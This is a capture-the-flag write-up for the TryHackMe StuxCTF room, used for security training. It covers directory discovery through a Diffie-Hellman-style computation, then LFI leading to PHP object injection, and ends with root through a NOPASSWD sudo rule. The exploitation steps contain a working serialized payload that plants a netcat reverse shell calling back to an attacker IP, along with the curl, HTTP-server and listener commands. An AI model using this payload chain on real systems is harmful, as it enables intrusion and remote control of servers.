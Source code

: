 ```yaml
---
clayout: ctf
title: StuxCTF
type: TryHackMe
date: 2025-10-07
level: Medium
icon: /ctf/tryhackme/stux-ctf/icon-room.png
image: /ctf/tryhackme/stux-ctf/icon-room.png
description: Crypto, serealization, priv scalation and more ...!
ctf-link: https://tryhackme.com/room/stuxctf
---
```


## Machine Overview

StuxCTF is a medium-difficulty CTF challenge on TryHackMe. It covers topics such as cryptography, serialization, privilege escalation, and more. The challenge is designed to test your skills in these areas and provide a comprehensive overview of these concepts.

## Enumeration

### Nmap Scan

```bash
nmap -sC -sV -p- -oN nmap.txt 10.10.0.107
```

**Scan results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)
```

### Web Enumeration

Navigating to `http://10.10.0.107/` reveals a simple page with the following text:

```html
is blank....
```

Inside the source code, we can see the following comment:

```html
<!-- The secret directory is...
    p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
    g: 7;
    a: 330;
    b: 450;
    g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
-->
```

This looks like Elgamal encryption parameters.

### Secret Directory Discovery

The challenge provides a hint about finding the hidden directory:

> [!NOTE] Hint
> `g ^ a mod p, g ^ b mod p, g ^ C mod p`  
> **Task**: Find the first 128 characters of the secret

This is referencing **Elgamal encryption** parameters found in the HTML comments. In Elgamal, the shared secret can be calculated using:

**Mathematical Background:**

- `g^a mod p` and `g^b mod p` are public keys
- `g^c mod p` is the encrypted message
- The shared secret is: `(g^c)^(a*b) mod p = g^(c*a*b) mod p`

**Python Implementation:**

```python
# Elgamal parameters from HTML comments
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
g_c = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

# Calculate the shared secret
secret = pow(g_c, a * b, p)
print(str(secret)[:128])
```

**Output:**

```text
47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

Navigating to `http://10.10.0.107/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/` reveals the following page:

![Secret Directory](/ctf/tryhackme/stux-ctf/secret-directory.png)

### File Inclusion Vulnerability

Looking at the page source, we find a hint in the HTML comments:

```html
<!-- hint: /?file= -->
```

This suggests a **Local File Inclusion (LFI)** vulnerability. Testing with `/?file=index.php` reveals the application's source code:

![Index PHP dump](/ctf/tryhackme/stux-ctf/index-php-dump.png)

The response is encoded using multiple transformations. Using [CyberChef](https://cyberchef.net/), we decode it using the following pipeline: **Hex → Bytes → Reverse → Base64 → UTF-8**

![CyberChef](/ctf/tryhackme/stux-ctf/cyberchef.png)

**Decoded PHP Source Code:**

```php
error_reporting(0);
class file {
    public $file = "dump.txt";
    public $data = "dump test";
    function __destruct() {
        file_put_contents($this->file, $this->data);
    }
}

$file_name = $_GET['file'];
if (isset($file_name) && !file_exists($file_name)) {
    echo "File no Exist!";
}

if ($file_name=="index.php") {
    $content = file_get_contents($file_name);
    $tags = array("", "");
    echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));
}
unserialize(file_get_contents($file_name));
<!-- ... more code ... -->
```

### Serialization Attack Analysis

The vulnerability lies in the `unserialize(file_get_contents($file_name))` line. This creates a **PHP Object Injection** vulnerability because:

1. **Unsafe Deserialization**: The application deserializes any file content without validation
2. **Dangerous Magic Method**: The `file` class has a `__destruct()` method that writes data to files
3. **Remote File Inclusion**: We can include remote files via HTTP

**Attack Vector**: Create a malicious serialized object that writes a PHP reverse shell to the server.

### Exploitation Steps

#### Step 1: Create Malicious Serialized Object

```php
<?php
class file {
    public $file = "reverse-shell.php";
    public $data = "<?php shell_exec('nc -e /bin/bash 10.14.102.54 4444'); ?>";
}
echo serialize(new file());
?>
```

#### Step 2: Host the Payload

```bash
# Save the serialized object to reverse-shell.txt
# Start HTTP server to serve the payload
python3 -m http.server 8080
```

#### Step 3: Trigger Remote File Inclusion

```bash
# Include the remote serialized object
curl "http://10.10.65.171/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.14.102.54:8080/reverse-shell.txt"
```

#### Step 4: Set Up Listener

```bash
# Listen for reverse shell connection
nc -lnvp 4444
```

#### Step 5: Execute the Web Shell

```bash
# Trigger the uploaded reverse-shell.php
curl "http://10.10.65.171/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/reverse-shell.php"
```

**Shell received as www-data:**

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> [!TIP] Upgrade to a proper TTY
>
> ```bash
> export TERM=xterm
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```

> [!IMPORTANT] User flag
> `/home/grecia/user.txt`

## Privilege Escalation

### Initial Access Verification

After gaining shell access as `www-data`, we verify our current privileges:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Sudo Privilege Analysis

Checking sudo permissions reveals a critical misconfiguration:

```bash
sudo -l
```

**Output:**

```bash
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

### Root Access

The `www-data` user has been granted **unrestricted sudo access** without password requirements. This is an extremely dangerous misconfiguration that allows immediate privilege escalation:

```bash
# Escalate to root
sudo su -

# Verify root access
id
uid=0(root) gid=0(root) groups=0(root)
```

> [!WARNING] Security Misconfiguration
> This type of sudo misconfiguration (`NOPASSWD: ALL`) is a critical security vulnerability that should never exist in production environments.

> [!IMPORTANT] Root Flag
> `/root/root.txt`
